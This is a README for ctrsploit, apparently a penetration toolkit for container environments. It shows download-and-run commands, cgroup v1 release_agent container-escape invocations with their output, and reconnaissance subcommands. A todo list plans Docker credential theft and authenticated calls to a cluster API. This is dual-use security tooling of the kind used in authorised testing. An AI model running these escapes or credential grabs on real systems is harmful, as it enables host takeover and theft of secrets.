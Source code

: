 # ctrsploit: A penetration toolkit for container environment

[中文文档](./README-ZH.md)

## usage
### help
```
wget -O ctrsploit https://github.com/ssst0n3/ctrsploit/releases/download/v0.1/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### run a exploit
```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

eg. : escape by 'cgroupv1-release_agent' tech.
```
root@host # docker run -ti --rm --security-opt="seccomp=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ssst0n3/ctrsploit/releases/download/v0.1/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

if we do not know the rootfs of container, ctrsploit can still escape by release agent tech
```
[root@container /]# ./ctrsploit e ra3 -c "cat /etc/hostname"
INFO[0000] trying 100                                   
INFO[0000] trying 200                                   
INFO[0000] trying 300                                   
INFO[0000] trying 400                                   
INFO[0000] trying 500                                   
...
INFO[0017] trying 11700                                 
INFO[0017] found /output140128693, success              
INFO[0018] 
===========start of result==============
cce-arm-euler28-30231
===========end of result============== 
```

### gather information
usage
```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

where
```
root@ctr:/# ./ctrsploit  env  w
INFO[0000] ===========Docker=========
.dockerenv exists: ✔
rootfs contains 'docker': ✔
cgroup contains 'docker': ✘
the mount source of /etc/hosts contains 'docker': ✔
hostname match regex ^[0-9a-f]{12}$: ✔
=> is in docker: ✔ 
INFO[0000] ===========k8s=========
/var/run/secrets/kubernetes.io exists: ✘
hostname match k8s pattern: ✘
the mount source of /etc/hosts contains 'pods': ✘
cgroup contains 'kubepods': ✘
=> is in k8s: ✘ 
```

cgroup version
```
root@ctr:/# ./ctrsploit env c
INFO[0000] ===========Cgroups=========
is cgroupv1: ✘
is cgroupv2: ✔ 
```

graph driver
```
root@ctr:/# ./ctrsploit env g
INFO[0000] ===========Overlay=========
Overlay enabled: false 
INFO[0000] ===========DeviceMapper=========
DeviceMapper enabled: true
DeviceMapper used: true
The number of devicemapper used in running container: 11 ( =(count(running containers)+1) )
The host path of container's rootfs: /var/lib/docker/devicemapper/mnt/1659264e845b55b8c9ec42034d7d2dcc23159ebd06f3c69983e764f26eab9721/rootfs 
```

capability
```
root@ctr:/# ./ctrsploit env cap
INFO[0000] ===========Capability=========
pid 1
[caps]
0xa82425fb != default(0xa80425fb)

[parsed]
[CAP_CHOWN CAP_DAC_OVERRIDE CAP_FOWNER CAP_FSETID CAP_KILL CAP_SETGID CAP_SETUID CAP_SETPCAP CAP_NET_BIND_SERVICE CAP_NET_RAW CAP_SYS_CHROOT CAP_SYS_ADMIN CAP_MKNOD CAP_AUDIT_WRITE CAP_SETFCAP]

[Additional Capabilities]
["CAP_SYS_ADMIN"]

current process
[caps]
0xa82425fb != default(0xa80425fb)

[parsed]
[CAP_CHOWN CAP_DAC_OVERRIDE CAP_FOWNER CAP_FSETID CAP_KILL CAP_SETGID CAP_SETUID CAP_SETPCAP CAP_NET_BIND_SERVICE CAP_NET_RAW CAP_SYS_CHROOT CAP_SYS_ADMIN CAP_MKNOD CAP_AUDIT_WRITE CAP_SETFCAP]

[Additional Capabilities]
["CAP_SYS_ADMIN"]
```

## pre-built release
https://github.com/ssst0n3/ctrsploit/releases

## Todo List
- [ ] information gather
    - [ ] whether in container
      - [ ] current container env
        - [ ] swarm
        - [x] k8s
          - [x] `ls -lah /var/run/secrets/kubernetes.io`
          - [x] `cat /proc/self/mountinfo | grep hosts |grep pods`
          - [x] `cat /proc/self/cgroup |grep kubepods`
          - [x] `cat /etc/hostname`
      - [ ] current cri
        - [x] docker
          - [x] `ls -lah /.dockerenv`
          - [x] `head -n 1 /proc/self/mountinfo | grep docker`
          - [x] `cat /proc/self/cgroup |grep docker`
          - [x] `cat /proc/self/mountinfo | grep "hosts|hostname" |grep docker`
          - [x] `cat /etc/hostname` // not convinced
        - [ ] containerd
        - [ ] ...
    - [ ] current container software version
      - [ ] cluster api: curl -k https://10.0.0.233:5443/apis/version.cce.io/v1beta1 --header "Authorization: Bearer $token"
    - [ ] current container ID
    - [ ] the security protection
        - [ ] capability
        - [ ] seccomp
        - [ ] LSM
        - [ ] cgroup
            - [ ] cgroup version
                - [x] v1
                - [x] v2
    - [ ] block dev name
        - [ ] /sys/block/nvme0n1
    - [ ] the absolute path under host of container's rootfs
        - [ ] docker
        - [ ] k8s variant 1
        - [ ] k8s variant 2
    - [ ] openstack api accessibility
    - [ ] graphdriver
        - [x] overlay
        - [x] devicemapper
        - [ ] aufs
- [ ] execute
    - [ ] outside of container
        - [ ] get docker credentials
            - [ ] $HOME/.docker/config.json
- [ ] exploit
    - [ ] CVE-2019-16884
    - [ ] CVE-2019-14271
    - [ ] CVE-2021-21285  
    - [ ] mount dir->symlink->mount again escape
    - [x] cgroupv1 notify_on_release escape
        - [x] unknown rootfs support 
    - [x] cgroupv1 notify_on_release escape with unknown rootfs
- [ ] auto exploit